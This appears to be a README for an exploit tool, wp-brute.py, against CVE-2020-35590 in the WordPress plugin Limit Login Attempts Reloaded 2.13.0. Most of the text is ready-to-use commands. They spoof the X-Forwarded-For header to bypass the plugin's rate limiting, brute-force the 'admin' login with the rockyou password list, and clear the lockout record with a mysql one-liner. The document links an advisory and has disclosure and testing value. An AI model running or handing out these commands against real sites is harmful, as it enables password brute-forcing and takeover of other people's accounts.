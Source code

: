 ## Exploit Information

**Exploit Title:** WordPress Plugin Limit Login Attempts Reloaded 2.13.0 - Login Limit Bypass  
**CVE:** [CVE-2020-35590](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-35590)  
**Date:** 2020-06-09  
**Exploit Author:** N4nj0  
**Software Link:** [https://wordpress.org/plugins/limit-login-attempts-reloaded/](https://wordpress.org/plugins/limit-login-attempts-reloaded/)  
**Version:** 2.13.0  
**Tested on:** WordPress 5.4.1, 5.4.2  
**Vulnerability Advisory:** [https://n4nj0.github.io/advisories/wordpress-plugin-limit-login-attempts-reloaded/](https://n4nj0.github.io/advisories/wordpress-plugin-limit-login-attempts-reloaded/)  

The affected WordPress plugin is aimed to be a bruteforce attack protection mechanism, and is currently installed in more than **1 million** of active installations.  
I've found a rate limiting bypass under a non-default configuration, which effectively defeats the plugin purpose.  

## Usage

### Check

`./wp-brute.py -c -u http://wordpress -H X-Forwarded-For -l admin -P /usr/share/wordlists/rockyou.txt`  
`./wp-brute.py --check --url http://wordpress --header X-Forwarded-For --login admin --passwordlist /usr/share/wordlists/rockyou.txt --quiet`  

### Exploit
`./wp-brute.py -e -u http://wordpress -H X-Forwarded-For -l admin -P /usr/share/wordlists/rockyou.txt -q`  
`./wp-brute.py --exploit --url http://wordpress --header X-Forwarded-For --login admin --passwordlist /usr/share/wordlists/rockyou.txt --quiet`  

### Manually unlock user
`mysql -uroot -ppassword wordpress -e "UPDATE wp_options SET option_value = '' WHERE option_name = 'limit_login_lockouts' LIMIT 1;"`  
